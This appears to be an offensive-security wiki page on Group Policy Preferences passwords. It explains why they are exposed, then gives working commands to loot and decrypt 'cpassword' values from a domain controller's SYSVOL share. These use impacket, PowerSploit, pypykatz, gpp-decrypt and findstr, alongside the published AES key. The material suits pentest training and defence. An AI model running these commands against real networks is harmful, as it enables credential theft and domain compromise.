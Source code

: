 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

* **Issue 1**: the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines.
* **Issue 2**: by default, knowing the built-in Administrator's hash (RID 500) allows for powerful [Pass-the-Hash](../../ntlm/pth.md) attacks ([read more](broken-reference)).
* **Issue 3**: all Group Policies are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted:man\_shrugging:.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) (Python) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually (or with Metasploit's `smb_enum_gpp` module), however it requires mounting the `SYSVOL` share, which can't be done through a docker environment unless it's run with privileged rights.

Tools like [pypykatz](https://github.com/skelsec/pypykatz) (Python) and [gpp-decrypt](https://github.com/BustedSec/gpp-decrypt) (Ruby) can then be used to decrypt the matches.

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the GPP password can only be recovered from an authenticated (i.e. domain user) context (see [impersonation](../impersonation.md)).

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a Domain Controller's SYSVOL share `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml` and `Drives.xml` files and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the `cpassword` string in xml files and by then manually decrypting the matches.

```bash
findstr /S cpassword %logonserver%\sysvol\*.xml
```

The decryption process is as follows

```
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=2288" %}

{% embed url="http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html" %}

{% embed url="https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be" %}


